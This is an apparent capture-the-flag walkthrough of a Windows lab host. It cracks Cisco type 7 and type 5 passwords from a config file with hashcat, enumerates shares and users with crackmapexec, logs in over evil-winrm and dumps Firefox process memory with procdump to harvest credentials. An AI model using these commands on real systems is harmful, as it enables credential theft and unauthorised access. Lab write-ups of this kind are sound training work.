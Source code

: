 # recon
```
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-28T08:15:06
|_  start_date: N/A
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

Login as guest and get cisco config file in attachement
```cisco
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

Encrypted rout3r password `0242114B0E143F015F5D1E161713` | decrypted password 
```
$uperP@ssword
```
Encrypted admin password `02375012182C1A1D751618034F36415408` | decrypted password 
```
Q4)sJu\Y8qz*A3?d
```

Identify hazard's secret 5 hash `$1$pdQG$o8nrSzsGXeaduXrjlvKc91` on hashes.com/en/tools/hash_identifier #crackPass
result : `Possible algorithms: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5), Cisco-IOS $1$ (MD5), Base64(unhex(SHA-1($plaintext)))`
Search hach mod on hashcat
```
hashcat -h | grep "Cisco-IOS \$1$ (MD5)" 
```
	 500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)

crack hash
```
hashcat -m 500 -a 0 hash rockyou
```
	`$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent`

password of hazard is 
```
stealth1agent
```
List shares
```
crackmapexec smb 10.129.96.157 -u 'hazard' -p 'stealth1agent' --shares
```
List users
```
crackmapexec smb 10.129.96.157 -u 'hazard' -p 'stealth1agent' --rid-brute 10000
```
	SUPPORTDESK\Administrator (SidTypeUser)
	SUPPORTDESK\Guest (SidTypeUser)
	SUPPORTDESK\DefaultAccount (SidTypeUser)
	SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
	SUPPORTDESK\None (SidTypeGroup)
	SUPPORTDESK\Hazard (SidTypeUser)
	SUPPORTDESK\support (SidTypeUser)
	SUPPORTDESK\Chase (SidTypeUser)
	SUPPORTDESK\Jason (SidTypeUser)

# foothold
```
evil-winrm -i 10.129.96.157 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```
List running process
```
Get-Process
```
	1088      72   153448     231140       3.27   6260   1 firefox
	347      19    10376      38856       0.02   6368   1 firefox
	401      34    35600      95120       0.39   6600   1 firefox
	378      28    23348      60120       0.27   6792   1 firefox
	355      25    16512      39036       0.08   7068   1 firefox
Use procdump from sysinternal suits to dump firefox process information
```
./procdump64.exe -accepteula
```
```
./procdump64.exe -ma 6260
```

